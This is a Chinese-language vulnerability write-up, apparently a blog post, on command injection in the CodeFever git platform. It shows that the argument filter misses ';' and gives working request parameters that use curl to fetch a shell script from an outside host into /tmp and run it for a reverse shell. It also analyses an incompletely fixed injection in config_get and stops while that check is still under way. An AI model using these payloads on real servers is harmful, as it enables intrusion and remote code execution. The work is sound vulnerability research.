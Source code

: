 get传参，`$revision、$filepath`的值可控，然后调用了getBlameInfo方法，跟进`application/models/repository_model.php`
![](https://img-blog.csdnimg.cn/6e3b108a04974429911687bfd50b3811.png)

使用`Command::wrapArgument`进行过滤，然后带入到`Command::run`命令执行，看看过滤的代码
![](https://img-blog.csdnimg.cn/47b5a86f3298436bacee400e0f7a6358.png)

可以看到循环进行正则匹配，直到`$result === $argument`
```
\s 匹配空白符(等价于[\r\n\t\f\v ])
\` 按字面匹配 字符 `，(区分大小写)
\' 按字面匹配 字符 '，(区分大小写)
\" 按字面匹配 字符 "，(区分大小写)
\$ 按字面匹配 字符 $，(区分大小写)
\| 按字面匹配 字符 |，(区分大小写)
```
可以注意到竟然没有过滤`;`，导致rce
![](https://img-blog.csdnimg.cn/b02ae26097bc4b04a6819dc0275a5923.png)

利用的话由于我们的用户是git，没有写的权限，可以wget下载反弹shell文件，然后sh执行
```
&revision=;curl&path=http://192.168.111.1:8000/shell.sh>/tmp/1
&revision=;sh&path=/tmp/1
```
![](https://img-blog.csdnimg.cn/b1a6ade3184747ae9082140990f33931.png)

成功反弹shell rce

#### config_get
在github上看到一个已修复的命令执行：[https://github.com/PGYER/codefever/issues/136](https://github.com/PGYER/codefever/issues/136)
![](https://img-blog.csdnimg.cn/2fa9e5337a0b4c328a0683214249c380.png)

修复方法就是使用`Command::wrapArgument`过滤，但这根本是治标不治本！

看到`application/models/repository_model.php`的execCommand方法，也就是漏洞修复的地方
![](https://img-blog.csdnimg.cn/695860e5c22441ca8e5eca838dad76dc.png)

这里将`$email`和`$name`拼接到命令执行的代码中，然后执行`Command::batch`，return 命令执行的结果

找一下`$commandType`为 GIT_COMMAND_QUERY ，然后存在返回值的方法

看到`application/controllers/api/repository.php`的 config_get 方法
![](https://img-blog.csdnimg.cn/083e674331a54838ae1a5d326544a637.png)

将结果输出，并且看到其中的 getTagList 方法
![](https://img-blog.csdnimg.cn/97d0d388f90d4680922cc9adc2ce38e7.png)

正则匹配任意字符并返回，所以回显成立

简单验证一下，由于前端 js 进行了校验，所以在修改个人信息处抓包
![](https://img-blog.csdnimg.cn/c7c9fc574d6a4c78b6e5f40a01f2b4ca.png)
